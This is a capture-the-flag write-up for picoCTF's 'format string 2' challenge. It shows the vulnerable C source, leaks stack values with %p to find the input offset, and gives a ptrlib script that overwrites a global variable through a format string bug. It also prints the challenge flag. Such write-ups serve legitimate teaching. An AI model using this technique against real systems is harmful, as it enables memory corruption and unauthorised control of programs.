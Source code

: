 # format string 2:Binary Exploitation:200pts
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must *change* data on the stack!  
Download the binary [here](vuln).  
Download the source [here](vuln.c).  
Connect with the challenge instance here:  
`nc rhea.picoctf.net 51885`  

Hints  
pwntools are very useful for this problem!  

# Solution
The binary, source and destination are passed. Try to connect.  
```bash
$ nc rhea.picoctf.net 51885
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
satoki
Here's your input: satoki
sus = 0x21737573
You can do better!

$ nc rhea.picoctf.net 51885
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%s
Here's your input: Here's your input:
sus = 0x21737573
You can do better!
```
There seems to be an echo back and an FSB. Looking at the source, it was as follows. 
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
It seems that if you change 'sus', which is '0x21737573', to '0x67616c66' in the FSB, a flag will appear.
```bash
$ checksec --file=./vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols        No    0               2               ./vuln
$ objdump -D ./vuln | grep '<sus>'
  401273:       8b 05 e7 2d 00 00       mov    0x2de7(%rip),%eax        # 404060 <sus>
  4012df:       8b 05 7b 2d 00 00       mov    0x2d7b(%rip),%eax        # 404060 <sus>
0000000000404060 <sus>:
```
Since PIE is invalid, the. You can rewrite the global variable in data('0x404060'). ptrlib has a function that automatically performs FSB when you specify the number in which your input value appears. 
```bash
$ nc rhea.picoctf.net 51885
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Here's your input: 0x402075,(nil),0x7f0338bcda00,(nil),0xb362b0,0x7f0338c1faf0,0x7f0338bf64e8,0x9,0x7f0338bf6de9,0x7f03389c7098,0x7f0338be34d0,(nil),0x7ffedfcbf520,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,
sus = 0x21737573
You can do better!
```
`0x70252c70252c7025`seems to be the 14th. The following fsb2.py is used. 
```python
from ptrlib import *

# sock = Process("./vuln")
sock = Socket("nc rhea.picoctf.net 51885")

payload = fsb(14, {0x404060: 0x67616C66}, bits=64)
sock.sendlineafter("say?\n", payload)

sock.sh()
```
Execute.  
```bash
$ python fsb2.py
[+] __init__: Successfully connected to rhea.picoctf.net:51885
~~~
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}
```
flag was displayed.  

## picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}